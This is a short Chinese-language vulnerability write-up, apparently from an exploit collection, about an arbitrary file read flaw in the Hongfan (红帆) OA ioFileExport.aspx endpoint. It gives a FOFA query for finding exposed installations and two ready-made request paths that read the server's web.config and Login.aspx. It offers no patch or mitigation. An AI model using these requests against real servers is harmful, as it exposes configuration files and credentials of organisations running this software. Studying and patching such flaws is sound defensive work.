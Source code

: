 # 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
红帆OA
```

## FOFA

```
app="红帆-ioffice"
```

## 漏洞复现

登录页面

![image-20220520142002215](./images/202205201420294.png)

验证POC, 读取web.config文件

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142019955](./images/202205201420011.png)

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142034423](./images/202205201420478.png)